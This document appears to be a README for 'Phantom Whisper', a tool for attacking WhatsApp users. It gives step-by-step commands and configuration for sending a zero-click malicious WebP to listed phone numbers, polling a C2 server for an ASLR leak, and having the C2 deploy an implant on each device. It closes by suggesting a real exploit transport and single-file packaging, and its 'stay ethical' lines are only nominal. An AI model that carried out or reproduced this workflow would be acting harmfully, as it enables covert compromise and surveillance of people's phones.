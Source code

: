 # Phantom Whisper — Step‑by‑Step Usage Guide

*A zero‑to‑green‑check walkthrough*

---

## 1  Prerequisites

| Requirement                 | Why                                  | Quick Check                |
| --------------------------- | ------------------------------------ | -------------------------- |
| Python 3.9 +                | Typing + `pydantic_settings` support | `python --version`         |
| `virtualenv` or `pyenv`     | Isolate deps                         | *Optional but recommended* |
| Git + GCC/Clang             | Pull & build wheels                  | `git --version`            |
| Out‑of‑scope test device(s) | Ethical testing only                 | Device IMEIs / IDs         |

---

## 2  Clone & Install

```bash
# 2.1  Clone
$ git clone https://github.com/exfil0/phantom_whisper.git
$ cd phantom_whisper

# 2.2  Create and activate venv
$ python -m venv .venv
$ source .venv/bin/activate

# 2.3  Install deps
$ pip install -r requirements.txt
```

---

## 3  Configure Environment

Create a file named `.env` **in the project root**:

```env
# .env
C2_API_KEY=REPLACE_WITH_REAL_KEY
```

| Variable                        | Description                              |
| ------------------------------- | ---------------------------------------- |
| `C2_API_KEY`                    | Auth token for your C2 service           |
| (Optional) `C2_SERVER_BASE_URL` | Defaults to `https://your-c2-server.com` |

---

## 4  Prepare Payload & Target List

1. Drop your **malicious WebP** into `./payloads/malicious_webp.bin`
      *Keep filename—code resolves by path.*
2. Edit `phantom_whisper/config.py` *or* append to `.env`:

   ```env
   # Comma‑separated WhatsApp IDs
   TARGET_WHATSAPP_IDS="+15551234567,+15557654321"
   ```

---

## 5  Dry‑Run Smoke Test

```bash
$ python -m phantom_whisper.orchestrator --help   # coming soon
$ python -m phantom_whisper.orchestrator          # runs with defaults
```

What to expect:

* Console log lines in plain text.
* `./logs/phantom_whisper.log` populated with JSON entries.

*No network calls will be fired until payload & targets are reachable.*

---

## 6  Live Execution

```bash
# Ensure VPN / lab network is ready
$ python -m phantom_whisper.orchestrator
```

The orchestrator will:

1. **Send Zero‑click WebP** → target device(s)
2. Poll C2 for **ASLR leak** (exponential back‑off)
3. Instruct C2 to **deploy implant** `main_implant_<os>.bin`

Exit code = number of failed targets (0 → 🎉).

---

## 7  Log & Evidence Collection

* **Human‑readable:** console output.
* **Structured:** `logs/phantom_whisper.log` (JSON per line).
* **Hash traceability:** each session includes `payload_hash` + `session_id`.

> Tip: import the JSON log into a SIEM/Grafana for timeline views.

---

## 8  Parallel Mode (Optional)

Uncomment the `ThreadPoolExecutor` block in `orchestrator.py` and set:

```python
settings.max_workers = 4  # or env var in future release
```

---

## 9  Cleanup

```bash
$ deactivate             # leave virtualenv
$ rm -rf .venv logs/*.log
```

---

## 10  Troubleshooting

| Symptom                               | Likely Cause          | Fix                                     |
| ------------------------------------- | --------------------- | --------------------------------------- |
| `requests.exceptions.ConnectionError` | Bad C2 URL / VPN down | Verify `C2_SERVER_BASE_URL`             |
| `PayloadError: not found`             | Wrong payload path    | Confirm `./payloads/malicious_webp.bin` |
| Exit code > 0                         | Some targets failed   | See `logs/` for `ERROR` lines           |

---

### 💡 Next Steps

* Swap simulated WhatsApp transport for real exploit transport.
* Add CLI arg parsing for fully headless use.
* Package with `pyinstaller` for single‑file drop && go.

— **Happy hunting & stay ethical!**
